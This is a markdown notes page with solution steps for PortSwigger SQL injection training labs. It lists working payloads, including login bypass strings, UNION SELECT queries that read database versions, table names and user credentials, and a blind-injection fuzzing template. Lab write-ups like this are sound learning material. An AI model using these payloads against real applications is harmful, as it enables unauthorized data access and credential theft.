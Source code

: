# 🧪 Labs

## Portswigger

1. [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
    - Apply category filter in the products list page.
    - Intercept the request and append `'+OR+1=1--` after the category name.

2. [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
    - In the login page enter `administrator'--` as username and any string as password.

3. [SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
    - Apply category filter in the products list page.
    - Intercept the request and append `'+UNION+SELECT+banner,NULL+FROM+v$version+--` after the category name.

4. [SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
    - Apply category filter in the products list page.
    - Intercept the request and append `'+UNION+SELECT+@@version,NULL#` after the category name.


5. [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
    - Apply category filter in the products list page.
    - Intercept the request and send to repeater.
    - Append `'+UNION+SELECT+NULL,NULL+FROM+information_schema.tables--` after the category name to find the number of tables.
    - Append `'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--` to find the table names.
    - Append `'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_ddrxau'--` to find the column names.
    - Append `'+UNION+SELECT+username_avurfo,password_jpfjxw+FROM+users_ddrxau--` to get the username and password and login as administrator.

6. [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
    - Apply category filter in the products list page.
    - Intercept the request and send to repeater.
    - Append `'+UNION+SELECT+NULL,NULL+FROM+all_tables--` after the category name to find the number of tables.
    - Append `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` to find the table names.
    - Append `'+UNION+SELECT+COLUMN_NAME,NULL+FROM+all_tab_columns+WHERE+TABLE_NAME='USERS_RQSUHA'--` to find the column names.
    - Append `'+UNION+SELECT+USERNAME_SLQETZ,PASSWORD_VEZXAZ+FROM+USERS_RQSUHA--` to get the username and password and login as administrator.

7. [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
    - Apply category filter in the products list page.
    - Intercept the request and send to repeater.
    - Append `'UNION+SELECT+NULL,NULL,NULL--` after the category name to find the number of columns in a table.

8. [SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)
    - Apply category filter in the products list page.
    - Intercept the request and send to repeater.
    - Append `'UNION+SELECT+'abc',NULL--` after the category name to find the column containing text.
9. [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
    - Apply category filter in the products list page.
    - Intercept the request and send to repeater.
    - Append `'UNION+SELECT+username,password+FROM+users--` after the category name to retrieve data from users table.

10. [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
    - Apply category filter in the products list page.
    - Intercept the request and send to repeater.
    - Append `'UNION+SELECT+NULL,username||password+FROM+users--` after the category name to get multiple values from a single column.

11. [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
    - Apply category filter in the products list page.
    - Intercept the request and send to repeater.
    - Append `' AND (SELECT SUBSTRING(password, §1§, 1) FROM USERS WHERE username='administrator')='§a§; to the tracking Id`
    - Send to intruder and fuzz the indicated locations and find the password and login as administrator.
    
12. [Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

13. [Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

14. [Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

15. [Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

16. [Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

17. [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

18. [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
